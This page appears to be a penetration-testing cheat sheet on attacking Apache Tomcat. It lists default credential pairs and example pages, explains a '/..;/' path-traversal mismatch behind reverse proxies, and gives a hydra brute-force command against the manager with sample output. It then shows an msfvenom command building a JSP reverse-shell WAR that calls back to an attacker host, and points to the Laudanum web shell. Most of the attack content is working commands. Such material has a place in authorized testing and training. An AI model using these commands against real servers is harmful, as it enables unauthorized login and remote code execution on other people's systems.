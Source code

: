 ```yaml
---
description: Attacking Tomcat
---
```


# Tomcat

### Default Credentials

{% code overflow="wrap" %}
```
admin:password
admin:
admin:Password1
admin:password1
admin:admin
admin:tomcat
both:tomcat
manager:manager
role1:role1
role1:tomcat
role:changethis
root:Password1
root:changethis
root:password
root:password1
root:r00t
root:root
root:toor
tomcat:tomcat
tomcat:s3cret
tomcat:password1
tomcat:password
tomcat:
tomcat:admin
tomcat:changethis
```
{% endcode %}

### Default Pages

* /examples/jsp/num/numguess.jsp&#x20;
* /examples/jsp/dates/date.jsp&#x20;
* /examples/jsp/snp/snoop.jsp&#x20;
* /examples/jsp/error/error.html&#x20;
* /examples/jsp/sessions/carts.html&#x20;
* /examples/jsp/checkbox/check.html&#x20;
* /examples/jsp/colors/colors.html&#x20;
* /examples/jsp/cal/login.html&#x20;
* /examples/jsp/include/include.jsp&#x20;
* /examples/jsp/forward/forward.jsp&#x20;
* /examples/jsp/plugin/plugin.jsp&#x20;
* /examples/jsp/jsptoserv/jsptoservlet.jsp&#x20;
* /examples/jsp/simpletag/foo.jsp&#x20;
* /examples/jsp/mail/sendmail.jsp&#x20;
* /examples/servlet/HelloWorldExample&#x20;
* /examples/servlet/RequestInfoExample&#x20;
* /examples/servlet/RequestHeaderExample&#x20;
* /examples/servlet/RequestParamExample&#x20;
* /examples/servlet/CookieExample&#x20;
* /examples/servlet/JndiServlet&#x20;
* /examples/servlet/SessionExample&#x20;
* /tomcat-docs/appdev/sample/web/hello.jsp&#x20;
* /docs

### Tomcat Path Traversal

Web servers and reverse proxies normalize the request path. For example, the path **/image/../image/** is normalized to **/images/**. When Apache Tomcat is used together with a reverse proxy such as nginx there is a nromalization inconsistency.\
\
Tomcat will threat the sequence **/..;/** as **/../** and normalize the path while reverse proxies will not normalize this sequence and send it to Apache Tomcat as it is.\
\
This allows an attacker to access Apache Tomcat resources that are not normally accessible via the reverse proxy mapping.

Reference:

* [https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/)

### Brute Force Attack

{% code overflow="wrap" %}
```bash
hydra -L users.txt -P passwords.txt -f 172.16.8.148 -s 8080 http-get /manager/
```
{% endcode %}

Example output:

```bash
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-06 21:36:01
[DATA] max 16 tasks per 1 server, overall 16 tasks, 20 login tries (l:4/p:5), ~2 tries per task
[DATA] attacking http-get://172.16.8.148:8080/manager/
[8080][http-get] host: 172.16.8.148   login: admin   password: admin
[STATUS] attack finished for 172.16.8.148 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-06 21:36:02
```

And then, login into Tomcat Manager.

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhvZKD1qweQw89MqrzEJ1e1J1tcJ3rWizWLCWZzzGYVlMxy__d-6_HhXmrzFqndxwt0rORQ5nYFYRNppkcfjSzXmgwJMlDXGwUOnz8oE3myyUtQTagJQhbq6MiAv0MVQ6bWZrCbdxS7k8SMQqdNOT6SKnmT7qXnpfbMMP4XXEeAOK3zO04IWxl-Qgb2raw/s1000/tomcat-manager.png" alt=""><figcaption><p>Tomcat Manager</p></figcaption></figure>

### Backdooring Tomcat Manager

{% code overflow="wrap" %}
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.8.1 LPORT=4448 -f war -o revshell.war
```
{% endcode %}

Or use Laudanum cmd.war shell at **/usr/share/laudanum/jsp**.

{% code overflow="wrap" %}
```bash
➜  jsp tree
.
├── cmd.war
├── makewar.sh
└── warfiles
    ├── cmd.jsp
    ├── META-INF
    │   └── MANIFEST.MF
    └── WEB-INF
        └── web.xml

4 directories, 5 files
```
{% endcode %}

Example of Laudanum WAR Shell

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjw11cCHRkpxpt-Mrl8AEsmzZcRDa75MDV2X9EmAUXHAhqOuFMRFHyy_DNK3P88bCHD9raqARpGVbUGr2qknCKOjdb-lKfw8RKW9VhG32s3ekVBK3VZ79NQqQdnOnooaOO0K129Ueoq99t2DkQ2Q9d_cpD9FFIR5lupJ0H1z2GdNPXBTIoiOAs4jzpInUg/s1000/tomcat-mgr-rce.png" alt=""><figcaption><p>CMD Shell</p></figcaption></figure>

Update soon....
